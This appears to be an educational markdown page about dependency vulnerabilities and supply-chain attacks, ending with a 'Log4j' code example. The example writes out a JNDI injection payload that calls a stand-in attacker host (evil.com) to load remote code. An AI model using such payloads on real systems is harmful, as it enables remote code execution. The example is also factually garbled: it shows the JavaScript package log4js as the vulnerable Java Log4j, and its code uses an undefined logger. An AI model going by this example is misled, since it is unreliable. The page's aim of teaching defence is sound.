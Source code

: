 # Dependency Vulnerabilities Examples ✅

## What are Dependency Vulnerabilities?

Dependency vulnerabilities are security flaws in third-party libraries, frameworks, and packages that your application depends on. These vulnerabilities can be exploited by attackers to compromise your application, even if your own code is secure.

## Why Dependency Security Matters

### Real-World Impact:
- **Supply Chain Attacks** - Malicious code in dependencies
- **Data Breaches** - Vulnerable libraries expose sensitive data
- **System Compromise** - Attackers gain access through dependencies
- **Compliance Issues** - Fail security audits due to vulnerable dependencies
- **Reputation Damage** - Security incidents affect user trust
- **Financial Loss** - Data breaches and incident response costs

## Types of Dependency Vulnerabilities

### **1. Known Vulnerabilities** 🔍
- **CVE (Common Vulnerabilities and Exposures)** - Documented security flaws
- **NPM Security Advisories** - JavaScript package vulnerabilities
- **GitHub Security Alerts** - Repository vulnerability notifications
- **OSV (Open Source Vulnerabilities)** - Standardized vulnerability format

### **2. Supply Chain Attacks** 🚚
- **Typosquatting** - Malicious packages with similar names
- **Dependency Confusion** - Fake packages in public registries
- **Compromised Maintainers** - Attackers gain access to legitimate packages
- **Malicious Updates** - Backdoors in package updates

### **3. Outdated Dependencies** 📅
- **Unsupported Versions** - No security patches available
- **Known Vulnerabilities** - Fixed in newer versions
- **Performance Issues** - Security improvements in updates
- **Compatibility Problems** - Breaking changes in major versions

## Common Dependency Vulnerabilities

### **1. Log4j (CVE-2021-44228)** 🪵
```javascript
// VULNERABLE: Log4j 2.x before 2.15.0
const log4j = require('log4js');
log4j.configure({
    appenders: { console: { type: 'console' } },
    categories: { default: { appenders: ['console'], level: 'info' } }
});

// 🚨 VULNERABLE: Remote code execution via JNDI lookup
logger.info('${jndi:ldap://evil.com/exploit}');
```
